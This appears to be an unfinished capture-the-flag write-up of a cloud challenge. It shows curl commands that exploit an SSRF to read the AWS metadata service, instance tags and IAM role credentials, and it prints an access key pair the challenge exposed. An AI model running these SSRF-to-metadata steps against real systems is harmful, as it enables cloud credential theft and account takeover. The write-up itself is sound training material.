 # CloUDwalker - Cloud Village CTF 2025

## Challenge Overview

CloUDwalker was an AWS cloud security challenge that combined Server-Side Request Forgery (SSRF) exploitation with cloud metadata service access and multi-service AWS reconnaissance.

**Target:** `http://cloud-walker.hexnova.quest:8080/`

## Initial Discovery

### Web Application Analysis
Inspecting the HTML source code revealed a commented-out search form with a telling comment:
```html
<!-- remove search due to ssrf problemss
<form action="/search" method="POST">
  <label for="query">Search:</label>
  <input type="text" id="query" name="query" placeholder="Enter search term" required>
  <button type="submit">Submit</button>
</form>
-->
```

This comment directly hinted at SSRF vulnerabilities and identified the attack vector: a POST endpoint at `/search` with a `query` parameter.

## SSRF Exploitation

### AWS Metadata Service Access
We exploited the SSRF vulnerability to access the AWS metadata service:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -d "query=http://169.254.169.254/latest/meta-data/"
```

This revealed the standard AWS metadata structure, confirming we were running on an EC2 instance.

### Instance Information Gathering
Through SSRF, we extracted critical instance information:
- **Instance ID:** `i-06aa1eec85dfeb4ce`
- **Region:** `eu-north-1` 
- **Account ID:** `101244608939`
- **IAM Role:** `small_phil_role`

### EC2 Tags Analysis
The most crucial discovery came from examining EC2 instance tags:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -d "query=http://169.254.169.254/latest/meta-data/tags/instance/hex-nova"
```

This returned a hex-encoded message:
```
747269656420746f206869646520626f6d6220636f646520696e20656332207461672e206661696c2e2074726965642077697468696e2065633220696e7374616e63652e206661696c2e20747279696e6720616e6f7468657220736572766963652e2070657469742e0a
```

Decoding this hex revealed:
```
"tried to hide bomb code in ec2 tag. fail. tried within ec2 instance. fail. trying another service. petit."
```

**Key Clues:**
- "bomb code" = flag  
- "petit" (French for "small") = Lambda functions
- Flag was moved from EC2 to "another service"

## AWS Credentials Extraction

### IAM Role Credentials
Through the SSRF, we extracted temporary AWS credentials:

```bash
curl -s "http://cloud-walker.hexnova.quest:8080/search" \
  -d "query=http://169.254.169.254/latest/meta-data/iam/security-credentials/small_phil_role"
```

This provided:
- **AccessKeyId:** `ASIARPEVGEGV5J5FTMNK`
- **SecretAccessKey:** `Ni7BvaY53fa890fmsSOdVSXw2l0cl4Uz4SDgFGRq`  
- **SessionToken:** [long session token]

#TODO: Add the complete solution showing how the Lambda function containing the flag was discovered and accessed, as the notes indicate the challenge was not fully completed

## Security Analysis

### Prowler Scan Results
Using the extracted credentials, we performed security analysis with Prowler:
- Role `small_phil_role` had restrictive permissions with explicit denies
- Both `small_phil_role` and `lambda-exec-role` were vulnerable to confused deputy attacks
- Limited access to most AWS services (Lambda, SSM, Secrets Manager blocked)

### S3 Access
We did gain read access to the `syndicate-uk-database` S3 bucket, which contained what appeared to be a cowsay project repository. Analysis of the README.md revealed:

> "Source code backdoors was good attempt to store the bomb code I discovered but it was too obvious and the Syndicate discovered this too quickly. I am avoiding S3 as a service and will look elsewhere."

This confirmed the flag had been moved from S3 to another AWS service, likely Lambda based on the "petit" clue.

#TODO: Add screenshot of the Prowler scan results showing the IAM policy restrictions

## Key Techniques
- Server-Side Request Forgery (SSRF)
- AWS metadata service exploitation
- Hex decoding and cryptanalysis
- AWS IAM role analysis
- Multi-service cloud enumeration
- Security assessment with Prowler

## Lessons Learned
- SSRF vulnerabilities can provide complete cloud environment access
- Instance metadata contains highly sensitive information
- EC2 tags can be used to store and communicate information
- Proper IAM policies are crucial for limiting blast radius
- Cross-service cloud security requires comprehensive analysis

#TODO: Add the final flag once the Lambda function exploitation is completed